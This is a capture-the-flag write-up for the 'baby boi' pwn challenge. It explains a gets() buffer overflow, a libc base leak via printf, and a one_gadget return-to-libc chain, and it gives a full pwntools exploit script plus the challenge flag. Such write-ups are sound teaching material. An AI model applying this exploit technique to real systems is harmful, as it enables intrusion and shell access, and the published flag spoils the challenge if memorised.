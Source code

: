 baby boi
===========
**Category**: pwn  **Points**: 50

Challenge Description
-------------
We are given three files: baby_boi the challenge binary, libc-2.27 and the source code.

Solution
--------------
Viewing the source code, we can see the vulnerable function `gets` that allows us to write arbitrary string to the 32-byte buffer. We can also see the second printf that prints the address of printf itself, this could be useful for calculating the libc base address.

![source](source.jpg)

So if we proceed and run the challenge binary, it prints out `Hello!` followed by the printf address. It then waits for an input (the `gets` part), upon receiving the input it then exits.

![run_binary](run_binary.jpg)

If we supply it with a large enough value then it overflows with a segmentation fault. If we see it in gdb then it's clear we can control `rip`.

![rip](rip.jpg)

However since NX is enabled we cannot execute the stack. However since we know the address of printf, we can calculate the libc offset and try to build an ROP chain.

![checksec](checksec.jpg)

So our goal is to calculate the libc base address first. Since we already have the libc provided, we can easily calculate it with the following code using `pwntools`

```python
libc = ELF("libc-2/27.so")
# get printf address
stuff = r.recvuntil("Hello!\n")
address = r.recvuntil("\n")
printf = int(address[11:], 16)
# get printf offset
printf_off = libc.symbols["printf"]
log.info("printf @ %s" % hex(printf))
# calculate libc base address
libc_base = printf - printf_off
log.info("libc base @ %s" % hex(libc_base))
```
We can verify this in gdb with `p printf` and `vmmap`, we can see printf address is correct, however I could not verify libc as the libc version is incorrect and the program failed if I supplied it with custom libc ` p = process("./baby_boi",env={"LD_PRELOAD" : "./libc-2-27.so"})`

![libc_printf](libc_printf.jpg)

Nevertheless assuming the libc base address is correct, I continued to build a ROP chain. Instead of manually building a ROP chain and execve /bin/sh, we can use one_gadget to do that for us (https://github.com/david942j/one_gadget)

![one_gadget](one_gadget.jpg)

We can use either one of them as all of them works. We can add the libc base address to this one_gadget and run execve /bin/sh. Here is the final exploit:

```python
from pwn import *

#r = process('./baby_boi')
r = remote("pwn.chal.csaw.io", 1005)

# libc
libc = ELF("libc-2.27.so")

# attach gdb
#gdb.attach(r.pid, """c""")
#raw_input("pause for gdb")

one_gadget = 0x4f322

stuff = r.recvuntil("Hello!\n")
address = r.recvuntil("\n")
printf = int(address[11:], 16)

printf_off = libc.symbols["printf"]
log.info("printf @ %s" % hex(printf))
libc_base = printf - printf_off
log.info("libc base @ %s" % hex(libc_base))

p = "A"*40
p += p64(libc_base + one_gadget)

r.clean()
r.sendline(p)

r.interactive()
```

![flag](flag.jpg)

Here is our flag: `flag{baby_boi_dodooo_doo_doo_dooo}`




